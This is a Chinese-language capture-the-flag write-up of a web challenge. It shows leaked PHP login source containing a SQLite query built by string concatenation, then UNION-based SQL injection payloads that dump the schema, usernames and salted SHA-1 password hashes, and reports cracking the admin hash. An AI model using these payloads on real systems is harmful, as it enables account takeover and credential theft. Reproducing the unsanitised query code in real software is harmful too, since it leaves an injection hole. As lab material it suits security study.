

好难的题目（:sob:）

怎么现在题目都这么难了

先用dirsearch扫目录

获取到有用信息，有一个/admin.php和/login.php这里的admin.php是用来管理员登录的

/login.php下有一个提示

|                                         |
| --------------------------------------- |
| <!-- TODO: Remove ?debug-Parameter! --> |
|                                         |

根据常规经验，这样的URL结构中的“debug”参数通常用于开发和调试目的。它可能用于在网站或应用程序的代码中启用调试模式，以便开发人员可以查看更详细的错误信息、调试输出或其他相关信息，以帮助识别和解决问题。

然后后面加入?debug可以获取源码

```php
<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?>
```

可以看出这里的数据库为SQLite3，user里面可以注入（这里的输出是用cookie的形式输出的）所以建议用bp抓包查看输出

抄的注入语句

```php
1' union select name,sql from sqlite_master --+
1' union select id,group_concat(id) from users--+得到1，2，3

1' union select id,group_concat(name) from users--+得到admin,fritze,hansi

1' union select id,group_concat(password) from users--+得到3fab54a50e770d830c0416df817567662a9dc85c、54eae8935c90f467427f05e4ece82cf569f89507、34b0bb7c304949f9ff2fc101eef0f048be10d3bd

```


获得表如下



这里的意思是找到最喜欢的word然后+Salz!后的sha1编码跟 3fab54a50e770d830c0416df817567662a9dc85c 相等

发现直接md5解密就得到密码（感觉是非预期解了）

ThinJerboaSalz!

正确的解法应该是从pdf文件中找对应的值然后求
